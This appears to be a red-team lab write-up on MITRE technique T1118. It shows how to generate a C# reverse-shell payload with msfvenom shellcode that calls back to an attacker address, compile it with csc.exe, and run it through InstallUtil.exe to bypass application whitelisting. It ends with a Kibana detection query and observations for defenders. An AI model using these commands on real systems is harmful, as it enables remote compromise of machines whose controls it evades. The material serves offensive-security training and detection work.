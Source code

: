 ```yaml
---
layout: post
title: "2024-06-18-t1118 installutil"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1118-installutil/
---
```


---
description: InstallUtil code execution - bypass application whitelisting.
---

# InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode %}

Compile the .cs to an .exe:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode %}

Execute the payload:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode %}

Enjoy the sweet reverse shell:

![](../../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode %}

![InstallUtil launching the malicious payload](../../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}

@spotheplanet
